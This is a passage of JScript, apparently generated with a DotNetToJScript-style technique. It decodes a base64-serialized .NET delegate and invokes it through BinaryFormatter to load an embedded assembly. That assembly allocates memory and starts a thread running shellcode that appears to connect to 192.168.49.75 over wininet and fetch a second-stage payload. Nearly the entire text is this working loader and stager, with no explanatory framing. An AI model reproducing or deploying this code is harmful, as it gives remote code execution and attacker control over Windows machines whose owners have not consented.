	var ms = new ActiveXObject("System.IO.MemoryStream");
	ms.Write(ba, 0, (length / 4) * 3);
	ms.Position = 0;
	return ms;
}

var serialized_obj = "AAEAAAD/////AQAAAAAAAAAEAQAAACJTeXN0ZW0uRGVsZWdhdGVTZXJpYWxpemF0aW9uSG9sZGVy"+
"AwAAAAhEZWxlZ2F0ZQd0YXJnZXQwB21ldGhvZDADAwMwU3lzdGVtLkRlbGVnYXRlU2VyaWFsaXph"+
"dGlvbkhvbGRlcitEZWxlZ2F0ZUVudHJ5IlN5c3RlbS5EZWxlZ2F0ZVNlcmlhbGl6YXRpb25Ib2xk"+
"ZXIvU3lzdGVtLlJlZmxlY3Rpb24uTWVtYmVySW5mb1NlcmlhbGl6YXRpb25Ib2xkZXIJAgAAAAkD"+
"AAAACQQAAAAEAgAAADBTeXN0ZW0uRGVsZWdhdGVTZXJpYWxpemF0aW9uSG9sZGVyK0RlbGVnYXRl"+
"RW50cnkHAAAABHR5cGUIYXNzZW1ibHkGdGFyZ2V0EnRhcmdldFR5cGVBc3NlbWJseQ50YXJnZXRU"+
"eXBlTmFtZQptZXRob2ROYW1lDWRlbGVnYXRlRW50cnkBAQIBAQEDMFN5c3RlbS5EZWxlZ2F0ZVNl"+
"cmlhbGl6YXRpb25Ib2xkZXIrRGVsZWdhdGVFbnRyeQYFAAAAL1N5c3RlbS5SdW50aW1lLlJlbW90"+
"aW5nLk1lc3NhZ2luZy5IZWFkZXJIYW5kbGVyBgYAAABLbXNjb3JsaWIsIFZlcnNpb249Mi4wLjAu"+
"MCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5BgcAAAAH"+
"dGFyZ2V0MAkGAAAABgkAAAAPU3lzdGVtLkRlbGVnYXRlBgoAAAANRHluYW1pY0ludm9rZQoEAwAA"+
"ACJTeXN0ZW0uRGVsZWdhdGVTZXJpYWxpemF0aW9uSG9sZGVyAwAAAAhEZWxlZ2F0ZQd0YXJnZXQw"+
"B21ldGhvZDADBwMwU3lzdGVtLkRlbGVnYXRlU2VyaWFsaXphdGlvbkhvbGRlcitEZWxlZ2F0ZUVu"+
"dHJ5Ai9TeXN0ZW0uUmVmbGVjdGlvbi5NZW1iZXJJbmZvU2VyaWFsaXphdGlvbkhvbGRlcgkLAAAA"+
"CQwAAAAJDQAAAAQEAAAAL1N5c3RlbS5SZWZsZWN0aW9uLk1lbWJlckluZm9TZXJpYWxpemF0aW9u"+
"SG9sZGVyBgAAAAROYW1lDEFzc2VtYmx5TmFtZQlDbGFzc05hbWUJU2lnbmF0dXJlCk1lbWJlclR5"+
"cGUQR2VuZXJpY0FyZ3VtZW50cwEBAQEAAwgNU3lzdGVtLlR5cGVbXQkKAAAACQYAAAAJCQAAAAYR"+
"AAAALFN5c3RlbS5PYmplY3QgRHluYW1pY0ludm9rZShTeXN0ZW0uT2JqZWN0W10pCAAAAAoBCwAA"+
"AAIAAAAGEgAAACBTeXN0ZW0uWG1sLlNjaGVtYS5YbWxWYWx1ZUdldHRlcgYTAAAATVN5c3RlbS5Y"+
"bWwsIFZlcnNpb249Mi4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdh"+
"NWM1NjE5MzRlMDg5BhQAAAAHdGFyZ2V0MAkGAAAABhYAAAAaU3lzdGVtLlJlZmxlY3Rpb24uQXNz"+
"ZW1ibHkGFwAAAARMb2FkCg8MAAAAABYAAAJNWpAAAwAAAAQAAAD//wAAuAAAAAAAAABAAAAAAAAA"+
"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAACAAAAADh+6DgC0Cc0huAFMzSFUaGlzIHByb2dy"+
"YW0gY2Fubm90IGJlIHJ1biBpbiBET1MgbW9kZS4NDQokAAAAAAAAAFBFAABkhgIALL+kYQAAAAAA"+
"AAAA8AAiIAsCMAAADgAAAAYAAAAAAAAAAAAAACAAAAAAAIABAAAAACAAAAACAAAEAAAAAAAAAAQA"+
"AAAAAAAAAGAAAAACAAAAAAAAAwBAhQAAQAAAAAAAAEAAAAAAAAAAABAAAAAAAAAgAAAAAAAAAAAA"+
"ABAAAAAAAAAAAAAAAAAAAAAAAAAAAEAAAAwEAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABkKQAA"+
"HAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+
"AAAAACAAAEgAAAAAAAAAAAAAAC50ZXh0AAAAbA0AAAAgAAAADgAAAAIAAAAAAAAAAAAAAAAAACAA"+
"AGAucnNyYwAAAAwEAAAAQAAAAAYAAAAQAAAAAAAAAAAAAAAAAABAAABAAAAAAAAAAAAAAAAAAAAA"+
"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAEgAAAACAAUAvCAAAKgIAAABAAAAAAAAAAAAAAAAAAAA"+
"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABMwBgBdAAAAAQAAEQIoDwAA"+
"CiDJAgAAjRIAAAEl0AEAAAQoEAAACiWOaQp+EQAACiAAEAAAIAAwAAAfQCgBAAAGCxYHBigSAAAK"+
"fhEAAAoWB34RAAAKFn4RAAAKKAIAAAYVKAMAAAYmKiIDKBMAAAomKgAAQlNKQgEAAQAAAAAADAAA"+
"AHYyLjAuNTA3MjcAAAAABQBsAAAAAAMAACN+AABsAwAA7AMAACNTdHJpbmdzAAAAAFgHAAAEAAAA"+
"I1VTAFwHAAAQAAAAI0dVSUQAAABsBwAAPAEAACNCbG9iAAAAAAAAAAIAAAFXlQI0CQIAAAD6ATMA"+
"FgAAAQAAABgAAAAEAAAAAQAAAAUAAAANAAAAEwAAAA8AAAABAAAAAQAAAAEAAAADAAAAAQAAAAEA"+
"AAACAAAAAQAAAAAAhQIBAAAAAAAGAMgBEQMGADUCEQMGABUB0AIPADEDAAAGAD0BoAIGAKsBoAIG"+
"AIwBoAIGABwCoAIGAOgBoAIGAAECoAIGAFQBoAIGACkB8gIGAAcB8gIGAG8BoAIGAK0DmQIGAOwA"+
"EQMGANEAmQIGAFMCmQIGAGMDEQMGAM4DmQIGALYAmQIGAMkCmQIGAHAC8gIKAH8D0AIAAAAAYAAA"+
"AAAAAQABAAEAEAByAwAAPQABAAEAAAEAAGkAAAA9AAEABgATAQAAAQAAAEUAAgAGADMBHwBCAAAA"+
"AACAAJEgkQBGAAEAAAAAAIAAkSCpAE4ABQAAAAAAgACRIKADWAALAEggAAAAAIYYwwIGAA0AsSAA"+
"AAAAhgB8AxAADQAAAAEAhwMAAAIAZAIAAAMA2wAAAAQAtAMAAAEAQAMAAAIAWAIAAAMAkQMAAAQA"+
"twIAAAUAUwMAAAYAngAAAAEAyQAAAAIA4wIAAAEAawIJAMMCAQARAMMCBgAZAMMCCgApAMMCEAAx"+
"AMMCEAA5AMMCEABBAMMCEABJAMMCEABRAMMCEABZAMMCEABhAMMCFQBpAMMCEABxAMMCEACBAMMC"+
"BgB5AMMCBgCZAMQDHwCxALICJwC5AOQDKgDBAL4DMwAuAAsAXgAuABMAZwAuABsAhgAuACMAjwAu"+
"ACsApAAuADMAzgAuADsAzgAuAEMAjwAuAEsA1AAuAFMAzgAuAFsAzgAuAGMA+QAuAGsAIwFDAFsA"+
"MAFjAHMANgEBAMkCAAAEABoAeAJBAQMAkQABAAABBQCpAAEAAAEHAKADAQCcKgAAAQAEgAAAAQAA"+
"AAAAAAAAAAAAAADUAwAAAgAAAAAAAAAAAAAAOQCIAAAAAAACAAAAAAAAAAAAAAA5AJkCAAAAAAQA"+
"AwAAAAAAAF9fU3RhdGljQXJyYXlJbml0VHlwZVNpemU9NzEzAEZDM0Y5N0Q5RTYzNTFGNTk0RkM3"+
"OTYzQzg0QjdCM0VCQjVCMzAyRkM1NEU4RUIxNTc3RjhEQjM4MTg3NDAxOTkAPE1vZHVsZT4APFBy"+
"aXZhdGVJbXBsZW1lbnRhdGlvbkRldGFpbHM+AG1zY29ybGliAFZpcnR1YWxBbGxvYwBscFRocmVh"+
"ZElkAENyZWF0ZVRocmVhZABSdW50aW1lRmllbGRIYW5kbGUAaEhhbmRsZQBWYWx1ZVR5cGUAZmxB"+
"bGxvY2F0aW9uVHlwZQBDb21waWxlckdlbmVyYXRlZEF0dHJpYnV0ZQBHdWlkQXR0cmlidXRlAERl"+
"YnVnZ2FibGVBdHRyaWJ1dGUAQ29tVmlzaWJsZUF0dHJpYnV0ZQBBc3NlbWJseVRpdGxlQXR0cmli"+
"dXRlAEFzc2VtYmx5VHJhZGVtYXJrQXR0cmlidXRlAEFzc2VtYmx5RmlsZVZlcnNpb25BdHRyaWJ1"+
"dGUAQXNzZW1ibHlDb25maWd1cmF0aW9uQXR0cmlidXRlAEFzc2VtYmx5RGVzY3JpcHRpb25BdHRy"+
"aWJ1dGUAQ29tcGlsYXRpb25SZWxheGF0aW9uc0F0dHJpYnV0ZQBBc3NlbWJseVByb2R1Y3RBdHRy"+
"aWJ1dGUAQXNzZW1ibHlDb3B5cmlnaHRBdHRyaWJ1dGUAQXNzZW1ibHlDb21wYW55QXR0cmlidXRl"+
"AFJ1bnRpbWVDb21wYXRpYmlsaXR5QXR0cmlidXRlAEJ5dGUAZHdTdGFja1NpemUAZHdTaXplAHBh"+
"dGgATWFyc2hhbABrZXJuZWwzMi5kbGwARXhhbXBsZUFzc2VtYmx5LmRsbABTeXN0ZW0AU3lzdGVt"+
"LlJlZmxlY3Rpb24AWmVybwBscFBhcmFtZXRlcgAuY3RvcgBJbnRQdHIAU3lzdGVtLkRpYWdub3N0"+
"aWNzAGR3TWlsbGlzZWNvbmRzAFN5c3RlbS5SdW50aW1lLkludGVyb3BTZXJ2aWNlcwBTeXN0ZW0u"+
"UnVudGltZS5Db21waWxlclNlcnZpY2VzAERlYnVnZ2luZ01vZGVzAGxwVGhyZWFkQXR0cmlidXRl"+
"cwBkd0NyZWF0aW9uRmxhZ3MAUnVudGltZUhlbHBlcnMAVGVzdENsYXNzAFJ1blByb2Nlc3MAbHBB"+
"ZGRyZXNzAGxwU3RhcnRBZGRyZXNzAFdhaXRGb3JTaW5nbGVPYmplY3QAZmxQcm90ZWN0AFN0YXJ0"+
"AEluaXRpYWxpemVBcnJheQBFeGFtcGxlQXNzZW1ibHkAQ29weQAAAAAAAAAAb2OJpXWD5UOIK7SL"+
"EoL9TAAEIAEBCAMgAAEFIAEBEREEIAEBDgQgAQECBAcCCBgHAAIBElERVQIGGAgABAEdBQgYCAUA"+
"ARJhDgi3elxWGTTgiQMGERAHAAQYGAkJCQkABhgYCRgYCRgFAAIJGAkIAQAIAAAAAAAeAQABAFQC"+
"FldyYXBOb25FeGNlcHRpb25UaHJvd3MBCAEAAgAAAAAAFAEAD0V4YW1wbGVBc3NlbWJseQAAKQEA"+
"JEV4YW1wbGUgQXNzZW1ibHkgZm9yIERvdE5ldFRvSlNjcmlwdAAABQEAAAAAJAEAH0NvcHlyaWdo"+
"dCDCqSBKYW1lcyBGb3JzaGF3IDIwMTcAACkBACQ1NjU5OGYxYy02ZDg4LTQ5OTQtYTM5Mi1hZjMz"+
"N2FiZTU3NzcAAAwBAAcxLjAuMC4wAAAFAQABAAAEAQAAAAAAAAAAK7+kYQAAAAACAAAAHAEAAIAp"+
"AACACwAAUlNEUwrl0Rle19hGh7BXPdxMw7gBAAAAXFwxOTIuMTY4LjQ5Ljc1XHZpc3VhbHN0dWRp"+
"b1xFeGFtcGxlQXNzZW1ibHlcb2JqXHg2NFxSZWxlYXNlXEV4YW1wbGVBc3NlbWJseS5wZGIAAAAA"+
"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+
"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+
"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+
"AAAAAAD8SIPk8OjMAAAAQVFBUFJRVkgx0mVIi1JgSItSGEiLUiBID7dKSk0xyUiLclBIMcCsPGF8"+
"AiwgQcHJDUEBweLtUkiLUiCLQjxIAdBBUWaBeBgLAg+FcgAAAIuAiAAAAEiFwHRnSAHQi0gYRItA"+
"IFBJAdDjVk0xyUj/yUGLNIhIAdZIMcBBwckNrEEBwTjgdfFMA0wkCEU50XXYWESLQCRJAdBmQYsM"+
"SESLQBxJAdBBiwSIQVhBWEgB0F5ZWkFYQVlBWkiD7CBBUv/gWEFZWkiLEulL////XUgx21NJvndp"+
"bmluZXQAQVZIieFJx8JMdyYH/9VTU0iJ4VNaTTHATTHJU1NJujpWeacAAAAA/9XoDgAAADE5Mi4x"+
"NjguNDkuNzUAWkiJwUnHwLsBAABNMclTU2oDU0m6V4mfxgAAAAD/1eigAAAAL3JQOHVaNHhpd0xX"+
"enE3S3AwZzhJQlFQV0l0VV9keUpvdUtQa1hEOXpob01QdV9vZm5xamJ0a1ZncGVseFM5UFVrbm9I"+
"eDNUOUJfSy1UbXpmSzFDa2U1TjZBVlM0QV83Mkk0VWFBc0pZdGxsbEFEY1hxdFhXYVFlVzZSMnlC"+
"QzFfWlMxbUluRV9yRVR5MVpPZE5ScVhCeVRub2VRaDBOAEiJwVNaQVhNMclTSLgAMqiEAAAAAFBT"+
"U0nHwutVLjv/1UiJxmoKX0iJ8WofWlJogDMAAEmJ4GoEQVlJunVGnoYAAAAA/9VNMcBTWkiJ8U0x"+
"yU0xyVNTScfCLQYYe//VhcB1H0jHwYgTAABJukTwNeAAAAAA/9VI/890Auuq6FUAAABTWWpAWkmJ"+
"0cHiEEnHwAAQAABJulikU+UAAAAA/9VIk1NTSInnSInxSInaScfAACAAAEmJ+Um6EpaJ4gAAAAD/"+
"1UiDxCCFwHSyZosHSAHDhcB10ljDWGoAWUnHwvC1olb/1QAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+
"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+
"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+
"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABABAAAAAYAACAAAAAAAAAAAAAAAAAAAAB"+
"AAEAAAAwAACAAAAAAAAAAAAAAAAAAAABAAAAAABIAAAAWEAAALADAAAAAAAAAAAAALADNAAAAFYA"+
"UwBfAFYARQBSAFMASQBPAE4AXwBJAE4ARgBPAAAAAAC9BO/+AAABAAAAAQAAAAAAAAABAAAAAAA/"+
"AAAAAAAAAAQAAAACAAAAAAAAAAAAAAAAAAAARAAAAAEAVgBhAHIARgBpAGwAZQBJAG4AZgBvAAAA"+
"AAAkAAQAAABUAHIAYQBuAHMAbABhAHQAaQBvAG4AAAAAAAAAsAQQAwAAAQBTAHQAcgBpAG4AZwBG"+
"AGkAbABlAEkAbgBmAG8AAADsAgAAAQAwADAAMAAwADAANABiADAAAABiACUAAQBDAG8AbQBtAGUA"+
"bgB0AHMAAABFAHgAYQBtAHAAbABlACAAQQBzAHMAZQBtAGIAbAB5ACAAZgBvAHIAIABEAG8AdABO"+
"AGUAdABUAG8ASgBTAGMAcgBpAHAAdAAAAAAAIgABAAEAQwBvAG0AcABhAG4AeQBOAGEAbQBlAAAA"+
"AAAAAAAASAAQAAEARgBpAGwAZQBEAGUAcwBjAHIAaQBwAHQAaQBvAG4AAAAAAEUAeABhAG0AcABs"+
"AGUAQQBzAHMAZQBtAGIAbAB5AAAAMAAIAAEARgBpAGwAZQBWAGUAcgBzAGkAbwBuAAAAAAAxAC4A"+
"MAAuADAALgAwAAAASAAUAAEASQBuAHQAZQByAG4AYQBsAE4AYQBtAGUAAABFAHgAYQBtAHAAbABl"+
"AEEAcwBzAGUAbQBiAGwAeQAuAGQAbABsAAAAYgAfAAEATABlAGcAYQBsAEMAbwBwAHkAcgBpAGcA"+
"aAB0AAAAQwBvAHAAeQByAGkAZwBoAHQAIACpACAASgBhAG0AZQBzACAARgBvAHIAcwBoAGEAdwAg"+
"ADIAMAAxADcAAAAAACoAAQABAEwAZQBnAGEAbABUAHIAYQBkAGUAbQBhAHIAawBzAAAAAAAAAAAA"+
"UAAUAAEATwByAGkAZwBpAG4AYQBsAEYAaQBsAGUAbgBhAG0AZQAAAEUAeABhAG0AcABsAGUAQQBz"+
"AHMAZQBtAGIAbAB5AC4AZABsAGwAAABAABAAAQBQAHIAbwBkAHUAYwB0AE4AYQBtAGUAAAAAAEUA"+
"eABhAG0AcABsAGUAQQBzAHMAZQBtAGIAbAB5AAAANAAIAAEAUAByAG8AZAB1AGMAdABWAGUAcgBz"+
"AGkAbwBuAAAAMQAuADAALgAwAC4AMAAAADgACAABAEEAcwBzAGUAbQBiAGwAeQAgAFYAZQByAHMA"+
"aQBvAG4AAAAxAC4AMAAuADAALgAwAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+
"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+
"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+
"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+
"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+
"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+
"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+
"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+
"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+
"AAAAAAAAAAAAAAAAAAAAAQ0AAAAEAAAACRcAAAAJBgAAAAkWAAAABhoAAAAnU3lzdGVtLlJlZmxl"+
"Y3Rpb24uQXNzZW1ibHkgTG9hZChCeXRlW10pCAAAAAoL";
var entry_class = 'TestClass';

try {
	setversion();
	var stm = base64ToStream(serialized_obj);
	var fmt = new ActiveXObject('System.Runtime.Serialization.Formatters.Binary.BinaryFormatter');
	var al = new ActiveXObject('System.Collections.ArrayList');
	var d = fmt.Deserialize_2(stm);
	al.Add(undefined);
	var o = d.DynamicInvoke(al.ToArray()).CreateInstance(entry_class);
	
} catch (e) {
    debug(e.message);
}